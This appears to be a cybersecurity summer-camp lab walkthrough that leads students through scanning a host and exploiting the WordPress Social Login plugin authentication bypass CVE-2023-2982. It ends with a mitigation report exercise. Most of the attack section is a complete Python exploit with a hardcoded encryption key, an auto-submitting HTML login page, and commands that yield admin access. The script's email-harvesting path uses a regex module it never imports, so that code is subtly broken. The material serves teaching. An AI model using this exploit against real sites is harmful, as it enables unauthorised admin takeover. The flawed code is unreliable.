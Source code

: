 Welcome to GenCyber Summer Camp 2025!  Together we are going to learn how to exploit a website that has a public vulnerability.  Lets see what else we can figure out about this website.  We also know that the website owner emailed us from admin@example.com which might come in handy later.

Lets take a look at: [Download the Free Nmap Security Scanner for Linux/Mac/Windows](https://nmap.org/download.html)
Go ahead and follow the instructions to download nmap onto your device from the website.  Once you have it installed you should be able to run it in your terminal with `nmap <command>`

We were given an IP address that this machine is running on: `144.80.64.114` so using that information read this article: [Port Scanning Basics | Nmap Network Scanning](https://nmap.org/book/man-port-scanning-basics.html) and see what information you can gather about this site.  Don't move onto the next section until you have completed a port scan of the website and make sure to take a screenshot of the scan for your report.

After scanning you should have discovered that ports 443 and 80 are running.  In your browser go to: http://144.80.64.114/ which is the website running on port 80 and have a look around.  After you had some time to explore you should right click and inspect the website:
![[Pasted image 20240626205001.png]]
And then take a look at the applications tab and examine the cookies for the site:
![[Pasted image 20240626210027.png]]
Notice how that table is empty, showing us that we are not logged in.  Now take a look at the network tab and take note of this service that we have running on the site:
![[Pasted image 20240626213842.png]]
This login method is out of date and has known vulnerabilities associated with it which you can read about here: [CVE-2023-2982 : The WordPress Social Login and Register (Discord, Google, Twitter, LinkedIn) plugin for WordPress is vulnerable to authe (cvedetails.com)](https://www.cvedetails.com/cve/CVE-2023-2982/) Make sure to take note of this in your report as well as a screenshot of the running service.
Now that we have a possible login method lets look and see if there are any proof's of concept attacks (POCs) for the attack or public scripts that exploit this attack.  I encourage you to do your own research about this vulnerability but for the purpose of this lab I have found us a POC that we can use: [GitHub - RandomRobbieBF/CVE-2023-2982: WordPress Social Login and Register (Discord, Google, Twitter, LinkedIn) <= 7.6.4 - Authentication Bypass](https://github.com/RandomRobbieBF/CVE-2023-2982/tree/main) Typically you would have to download and modify this file yourself but to prevent errors or anything actually malicious I have uploaded the code you will need here:

create a file called `exploit.py` and put this code in it:
```python
import requests
import os
from Cryptodome.Cipher import AES
from Cryptodome.Util.Padding import pad
import base64
import argparse
import random
import string

# Disable insecure request warnings
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

# Set up session with a custom User-Agent
session = requests.Session()
user_agent = "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36"
session.headers.update({'User-Agent': user_agent})

passphrase = 'jMj7MEdu4wkHObiD'

def try_login(website_url, email):
    website_url = website_url.rstrip('\/') + '/'
    
    # Encrypt and encode email
    cipher = AES.new(passphrase.encode('utf-8'), AES.MODE_ECB)
    padded_email = pad(email.encode('utf-8'), AES.block_size)
    encrypted_email = cipher.encrypt(padded_email)
    encoded_email = base64.b64encode(encrypted_email).decode('utf-8')
    
    try:
        response = session.post(website_url, headers={'Content-Type': 'application/x-www-form-urlencoded'},
                                data={'option': 'moopenid', 'email': encoded_email, 'appName': 'rlHeqZw2vrPzOiWWfCParA=='},
                                allow_redirects=False, verify=False, timeout=10)
        
        if any('wordpress_logged_in' in cookie.name for cookie in session.cookies):
            print("Login Worked!")
            random_string = ''.join(random.choices(string.digits, k=4))
            with open("login.html", 'r') as file:
                file_content = file.read()
                replaced_content = file_content.replace('WEBSITE_REPLACE', website_url).replace('EMAIL_REPLACE', encoded_email)
            
            with open(f"login-{random_string}.html", 'w') as file:
                file.write(replaced_content)
            print(f"To login again, open login-{random_string}.html")
        else:
            print(f"Login Failed with {email}")
    except requests.exceptions.RequestException as e:
        print('Error occurred while logging in:', str(e))

def scan_and_extract(website_url):
    print(f"Crawling {website_url} for email addresses.")
    os.system(f"katana -kf all -u {website_url} -o /tmp/katana.txt")
    print("Using Nuclei to extract emails from links")
    os.system("nuclei -l /tmp/katana.txt -t email-extraction.yaml -nc -nm -fr -o /tmp/nuc.txt")
    
    with open("/tmp/nuc.txt", "r") as f:
        lines = f.readlines()
        emails = set()
        for line in lines:
            matches = re.findall(r'\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Z|a-z]{2,}\b', line)
            emails.update(matches)
    
    with open("/tmp/nuc.txt", "w") as f:
        for email in emails:
            f.write(email + "\n")
    
    for email in emails:
        try_login(website_url, email)

def main():
    parser = argparse.ArgumentParser(description='CVE-2023-2982 Exploit')
    parser.add_argument('-w', '--website_url', required=True, help='Website URL')
    parser.add_argument('-e', '--email', required=False, help='Email')
    args = parser.parse_args()
    
    website_url = args.website_url
    email = args.email
    
    if email:
        try_login(website_url, email)
    else:
        scan_and_extract(website_url)

if __name__ == "__main__":
    main()

```

Create another file called `login.html` and put this code inside of it:
```html
<html>
<head>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/1.11.1/jquery.js" integrity="sha512-eKwZNCvuOhxcqGTXAudC9WH2KUKf8Id1cqNoMc6DKZuN8upL22xj3ZkJdckyDd3Gjsi1QHKZ3ug0XQHQkGRNJg==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>
    <script type="text/javascript">
        $(document).ready(function () {
            window.document.forms[0].submit();
        });
    </script>
</head>
<body>

<p style="font: calibri;">Please wait...</p>
<form action="WEBSITE_REPLACE/?option=moopenid" method="post" id="oauth-form">
    <input type="hidden" name="access_token" value="null"/>
    <input type="hidden" name="token_type" value="null"/>

    <input type="hidden" name="profileUrl" value="null"/>

    <input type="hidden" name="firstName" value="null"/>

    <input type="hidden" name="lastName" value="null"/>

    <input type="hidden" name="appName" value="5mOYjGe8QSZBuYFqNSAS4A=="/>

    <input type="hidden" name="profilePic" value="null"/>

    <input type="hidden" name="userid" value="null"/>

    <input type="hidden" name="email" value="EMAIL_REPLACE"/>

    <input type="hidden" name="username" value="null"/>

</form>
</body>
</html>

```

Before you can run this code you will have to make sure you have python installed on your device which can be found here: [Download Python | Python.org](https://www.python.org/downloads/)

After that you should put these into a txt file called `requirements.txt`:
```
requests 
pycryptodome
```
and then run the command: `pip3 install -r requirements.txt`

Make sure both files are in the same directory as you and run the following command: `python3 exploit.py -w http://144.80.64.114/ -e admin@example.com` Notice how we stole the website owners email from the initial email he sent us.

You should get terminal output that looks like this:
```
>> python3 exploit.py -w http://144.80.64.114/ -e admin@example.com
Login Worked!
To login again, open login-4358.html
```

Now there should be a new .html file in the same directory as your script.  Open it up and it should take you to the website (if for some reason it takes you to localhost/127.0.0.1 just keep reopening the new html file until you return to the blog site) 

Once you are on the new site you should now see a menu open on the left which should greet you as admin meaning you have successfully logged in as an admin user on the site.  To further verify this you can go back into the cookies tab and confirm you are logged in as admin:
![[Pasted image 20240626205943.png]]
Make sure to take a screenshot of this for your report.  Now that you have completed your attack take some time to do some research and write a mini report that you could give to your friend or client outlining this vulnerability.  Your report should outline what vulnerability was found, what it impacts, and how to mitigate it.  Make sure to pull information from some resources we have already seen as well, I'll list these two to start:
[CVE-2023-2982 : The WordPress Social Login and Register (Discord, Google, Twitter, LinkedIn) plugin for WordPress is vulnerable to authe (cvedetails.com)](https://www.cvedetails.com/cve/CVE-2023-2982/)
[OWASP Top Ten | OWASP Foundation](https://owasp.org/www-project-top-ten/)
